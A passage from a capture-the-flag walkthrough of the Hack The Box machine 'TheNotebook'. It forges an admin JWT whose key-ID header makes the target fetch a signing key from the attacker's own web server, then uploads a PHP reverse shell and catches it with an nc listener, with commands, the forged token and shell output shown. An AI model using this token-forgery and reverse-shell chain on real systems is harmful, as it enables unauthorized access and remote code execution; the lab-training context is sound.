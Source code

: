 Write RSA key:
  [root:/git/htb/thenotebook]# openssl rsa -in privKey.key -pubout -outform PEM -out privKey.key.pub                             (master✱)
    writing RSA key

Go to https://jwt.io to create a new token.
Paste our base64 values with a period in between, and for the signature - cat privKey.key and paste the value in the 'Private Key'
text box on the right. If everything goes correctly, we should now get a new token in the 'Encoded' box to the left.

Encoded JWT Token:
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6Ly8xMC4xMC4xNC4xMjo3MDcwL3ByaXZLZXkua2V5In0.eyJ1c2VybmFtZSI6InRlc3QxIiwiZW1haWwiOiJ0ZXN0QHRlc3QudGVzdCIsImFkbWluX2NhcCI6dHJ1ZX0.m9QIwUJ0hHW978K2ygqK8KMXuX1wwJGvLBNAf2_JsP8C3nup8zEws9D0cq0Y0-de-4SaOr51FkjwypRmouW5njnfqMykjEKLe8T1q6q1A4_USERSKeM64KWtPmZrEAdZKiWOznycRfpMNd0V2oZX4K3yxUy_-XqrsAj0tbLUsKJXVLtKzVkaryhcKd1yVbz8au-QsapVbXRTfXkxd34aQ4_Q_fu15WJNq8_kPTCLx0qu5iBz3DQvum_2Qtx_8mgyPZP0RUGcQEwwqB49jRiyoyCNqukCbeJ4MWDxNBy5X0kRWkwKHJbRjWkseIVIeC5ghHLQ0z3dA3_R-2iTxAQhov74A7wwjbdnwrG0FqQ71oliHhYFPuewnWHiut9EzvudX-4rVqd4gtGzQyhzn3Jqqf4nVVSP6wH7cBjI93rwYkVuFxByDjAqvhMbTATAPrvx6sC-uT29OOg2yETqhZugMuo847ji6_jRgIdhstPIiRo1UwYJI7ZaskIZIBl72FFX_bIm9D5iuxpEIBpMaUuJbAncUdNwMEro1qpRzECT-1lMopxVeMBS9tOKBKM4ZQszbChXXjvyjIYN2Q3uTCcaKKkxMktg7QAN9x_huP2fZLd1mm1X6rPsRlb_JSreKsSwnCMIkrnMpKhbS71fBP7OHROXqt1NQNyc9S2WDSZGS4M


3. Open the Firefox cookie inspector (Shift + F9) and paste the new token. Start a python http.server on port 7070 and browse
http://10.10.10.230/admin.

We get a incomming GET request where the token is verified with our new key, and are allowed to access the site.
  [root:/git/htb/thenotebook]# python3 -m http.server 7070                                                                       (master✱)
    Serving HTTP on 0.0.0.0 port 7070 (http://0.0.0.0:7070/) ...
    10.10.10.230 - - [12/May/2021 09:39:07] "GET /privKey.key HTTP/1.1" 200 -

On the admin page we can upload files, so lets upload a php reverse shell. Setup a listener and trigger it.

  [root:/git/htb/thenotebook]# nc -lvnp 4488                                                                                           (master✱)
    listening on [any] 4488 ...
    connect to [10.10.14.12] from (UNKNOWN) [10.10.10.230] 41364
    Linux thenotebook 4.15.0-135-generic #139-Ubuntu SMP Mon Jan 18 17:38:24 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
     07:45:33 up 13:47,  0 users,  load average: 0.00, 0.00, 0.00
    USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    /bin/sh: 0: can't access tty; job control turned off
    $ pwd
      /
    $

Upgrade the shell.


4. With access to the backend we can now enumerate the box. There's one user in /home, noah, however we don't have access to user.txt.
With some manual enumeration we find a backup of the home directory.
